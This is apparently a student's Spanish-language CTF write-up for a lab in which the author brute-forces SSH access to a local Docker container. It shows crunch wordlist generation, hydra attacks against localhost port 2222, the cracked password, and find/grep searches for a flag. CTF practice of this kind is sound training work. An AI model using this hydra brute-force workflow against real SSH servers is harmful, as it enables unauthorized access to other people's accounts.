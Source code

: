 # Creando CTF's

# 🛡️ Reto CTF: Ubuntu con SSH y Usuario 'Legion'

## 🎯 Objetivo
Acceder vía SSH a un contenedor Docker con usuario `legion`, cuya contraseña debe ser descubierta a través de fuerza bruta basada en un acertijo. Se utilizaron herramientas como `crunch` e `hydra` para automatizar el proceso.

---

## 🧱 1. Preparación del entorno

### Descargar imagen del contenedor
```bash
docker pull jaiderospina/retoctf:1.0

Ejecutar contenedor en segundo plano


docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
Solución a conflicto de nombre


docker rm -f mi-contenedor-ssh
🔍 2. Verificación del contenedor


docker ps
Confirmó contenedor activo y SSH escuchando en puerto 2222.

🧠 3. Análisis del acertijo
Cinco letras ocultas en las palabras estrella, selva, dedo, gato...
Hipótesis principal: combinación tipo esdeg, ESDEG, etc.

🧰 4. Generación de diccionarios con Crunch
Lista basada en patrón:


crunch 5 5 -t ES%%O -o esdeo.lst
Lista reducida:


crunch 5 5 estdgo -o reducido.lst
Lista ampliada:


crunch 5 5 estdogal -o ampliada.lst
Lista completa (opcional):


crunch 5 5 abcdefghijklmnopqrstuvwxyz -o full.lst
⚔️ 5. Ataques con Hydra
Comando base usado:



hydra -t 4 -l legion -P [archivo] -s 2222 localhost ssh
Diccionarios probados:

esdeo.lst ❌

reducido.lst ❌

ampliada.lst ❌

👣 6. Verificación manual de servicio SSH


ssh legion@localhost -p 2222
Confirmado: SSH activo y pidiendo contraseña.

🎯 7. Ataque exitoso con combinaciones personalizadas
Crear wordlist:


echo -e "esdeg\nESDEG\nEsdeg\neSdeg\nesDEG\neSdEg\nEsDEg\nESDeg\nesDEg\nEsdEg" > combinadas.lst
Ejecutar Hydra:


hydra -l legion -P combinadas.lst -s 2222 localhost ssh

✅ Resultado:

css


[22][ssh] host: localhost login: legion password: Esdeg
🔐 8. Acceso SSH exitoso


ssh legion@localhost -p 2222
# Contraseña: Esdeg
🕵️ 9. Búsqueda de bandera
Comandos usados:


ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /etc/motd
grep -r "CTF{" /home 2>/dev/null
❌ No se encontró bandera explícita en el contenedor.

🧠 Lecciones aprendidas
Uso táctico de crunch para generar diccionarios.

Dominio de hydra con control de tareas (-t).

Verificación previa de puertos y servicio SSH.

Importancia de considerar variantes en uso de mayúsculas.

Documentación detallada del proceso paso a paso.

Contraseña final encontrada: Esdeg
Usuario: legion
Puerto: 2222

📁 Autor: [grupo 4 - ]
📅 Fecha: Julio 2025
🎓 Proyecto académico – Electiva Habilidades Prácticas CTF



---
